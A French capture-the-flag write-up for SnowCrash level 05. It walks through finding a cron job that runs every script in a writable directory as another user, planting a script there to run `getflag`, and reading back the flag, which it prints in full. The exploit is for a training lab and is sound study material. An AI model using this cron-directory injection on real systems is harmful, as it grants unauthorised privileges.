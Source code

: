 # Level 05

## Étapes pour résoudre le challenge

1. **Message de départ :**

   Dès notre arrivée sur le niveau 05, nous recevons un message indiquant que nous avons un nouveau mail :

   ```bash
   You have new mail.
   ```

   Cela suggère que nous devons examiner les mails.

2. **Recherche des mails :**

   Nous utilisons la commande `find` pour localiser les fichiers de mail :

   ```bash
   level05@SnowCrash:~$ find / -name mail 2>/dev/null
   ```

   **Sortie :**
   ```
   /usr/lib/byobu/mail
   /var/mail
   /var/spool/mail
   /rofs/usr/lib/byobu/mail
   /rofs/var/mail
   /rofs/var/spool/mail
   ```

3. **Examen des répertoires :**

   Nous examinons les répertoires listés, en commençant par le plus prometteur :

   ```bash
   cd /var/mail
   ls -la
   ```

   **Sortie :**
   ```
   level05
   ```

   Nous trouvons un fichier de mail pour `level05`.

4. **Lecture du fichier mail :**

   Nous utilisons `cat` pour lire le contenu du fichier mail :

   ```bash
   cat level05
   ```

   **Contenu :**
   ```
   */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
   ```

   Nous comprenons que le fichier mail contient une configuration de tâche cron. Une tâche cron s'exécute toutes les 2 minutes et exécute la commande suivante :

   ```bash
   su -c "sh /usr/sbin/openarenaserver" - flag05
   ```

5. **Examen du script openarenaserver :**

   Nous examinons le script `/usr/sbin/openarenaserver` pour comprendre son fonctionnement :

   ```bash
   cat /usr/sbin/openarenaserver
   ```

   **Contenu :**
   ```bash
   #!/bin/sh

   for i in /opt/openarenaserver/* ; do
       (ulimit -t 5; bash -x "$i")
       rm -f "$i"
   done
   ```

   Le script exécute tous les fichiers présents dans `/opt/openarenaserver` avec un timeout de 5 secondes, puis les supprime.

6. **Création d'un fichier pour obtenir le flag :**

   Nous créons un fichier dans `/opt/openarenaserver` qui exécutera la commande `getflag` :

   ```bash
   echo "getflag > /tmp/flag05" > /opt/openarenaserver/flag05
   chmod +x /opt/openarenaserver/flag05
   ```

7. **Attente et récupération du flag :**

   Nous attendons 2 minutes pour que la tâche cron s'exécute, puis nous vérifions le contenu du fichier `/tmp/flag05` :

   ```bash
   cat /tmp/flag05
   ```

   **Flag :**
   ```
   viuaaale9huek52boumoomioc
   ```

8. **Connexion avec le flag :**

   Nous utilisons le flag pour nous connecter au niveau suivant :

   ```bash
   su level06
   ```

## Résumé

Pour résoudre ce challenge, nous avons exploité une tâche cron mal configurée qui permettait l'exécution de scripts arbitraires. En créant un script qui exécute la commande `getflag`, nous avons pu obtenir le flag.

Le flag pour `level05` est : `viuaaale9huek52boumoomioc`.
